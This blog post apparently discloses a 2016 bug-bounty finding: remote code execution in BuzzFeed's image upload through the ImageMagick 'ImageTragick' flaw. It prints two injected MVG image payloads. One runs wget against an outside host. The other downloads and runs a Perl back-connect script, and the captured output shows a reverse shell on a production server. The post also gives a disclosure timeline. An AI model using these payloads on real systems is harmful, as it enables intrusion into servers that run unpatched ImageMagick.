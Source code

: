 ```yaml
---
layout: post
title:  "BuzzFeed Remote Code Execution Vulnerability"
date:   2016-07-27 17:00:00
categories:
    - project
tags:
    - Bug Bounty
    - RCE Vulnerability
    - HackerOne
---
```


We just found some vulnerabiliy on the Buzzfeed.com website. That vulnerabillity infected ImageMagick, an applications that used by Buzzfeed for processing an images that inputted by the user. Through the upload form in Buzzfeed page, an attacker can upload an image file that has been injected by malicious code.

**Infected URLs:**

https://www.buzzfeed.com/post
https://www.buzzfeed.com/settings



#### Malicious Code 1:

~~~
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"; wget https://noobsec.org:1337/ping-me; touch "hello)'
pop graphic-context
~~~


**Response:**

~~~
Connection from 54.208.xx.xx port 1337 [tcp/menandmice-dns] accepted
GET /ping-me HTTP/1.1
User-Agent: Wget/1.13.4 (linux-gnu)
Accept: */*
Host: noobsec.org:1337
Connection: Keep-Alive
~~~


#### Malicious Code 2:

~~~
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"; cd /tmp && wget https://noobsec.org/backconnect.txt && mv /tmp/backconnect.txt /tmp/n00b.pl && perl /tmp/n00b.pl noobsec.org 1337; touch "hello)'
pop graphic-context
~~~


**Response:**

~~~
Connection from 54.87.xx.xx port 1337 [tcp/menandmice-dns] accepted
/bin/sh: 0: can't access tty; job control turned off
$ uname –a
Linux buzzfeed-prod-web01 3.2.0-101-virtual [#141](/reports/141)-Ubuntu SMP Thu Mar 10 22:12:23 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
~~~

Exploit code above allow Buzzfeed's servers to connect to the noobsec.org's server through Port 1337, so an attacker can send a command shell to Buzzfeed server (Remote Code Execution).


Timeline

- 23 July 2016 : Report Bug to Buzzfeed
- 27 July 2016 : Buzzfeed respond and ask for details
- 27 July 2016 : Buzzfeed ask to continue disscussion via Hackerone
- 27 July 2016 : Noobsec submit bug in Hackerone
- 28 July 2016 : Buzzfeed confirmed bug has been fixed


Reference:

1. https://imagetragick.com/
2. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3714
